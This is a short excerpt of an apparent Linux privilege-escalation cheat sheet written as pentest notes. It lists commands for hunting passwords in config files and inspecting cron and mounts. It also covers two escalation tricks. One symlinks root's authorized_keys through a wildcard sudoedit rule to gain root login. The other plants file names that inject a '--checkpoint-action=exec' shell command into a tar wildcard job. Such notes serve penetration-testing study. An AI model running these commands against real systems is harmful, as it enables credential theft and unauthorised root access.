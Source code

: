 ```
# This is only a base example of what you can do
# I use this technique often to find random things hidden deep in the file system
Kali> ls /*/*/*/*.conf

# Be creative
Kali> cat /etc/cron.*/* | grep SEARCHSTRING

# Mix it up
Kali> find / -type f -name '*.conf' | xargs grep -rnw -3 "Password" 2>/dev/null
```

##### Unmounted drives

```
Kali> cat /etc/fstab
Kali> mount
```

##### Exim

```
Kali> exim -bV -v | grep -i Perl
```

##### Wildcard Manipulation

> ###### Resources

[UNIX Wildcards gone wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

> ###### Sudoedit

```
# if sudoedit is using wildcards you can escape out with a few techniques
# Such as:  (root) NOPASSWD: sudoedit /var/www/*/*/file.html
Kali> ln -s /root/.ssh/authorized_keys /var/www/testing/testdir/file.html
# Now when you add your key to this file, you will be able to login to root, for example
```

> ###### Tar

```
# If there is a script running as an authorized user that uses wildcards to tar a folder, you can inject command line arguments via:
Kali> echo '' > "--checkpoint-action=exec='sh shell.sh'"
Kali> echo '' > "--checkpoint=1"
```



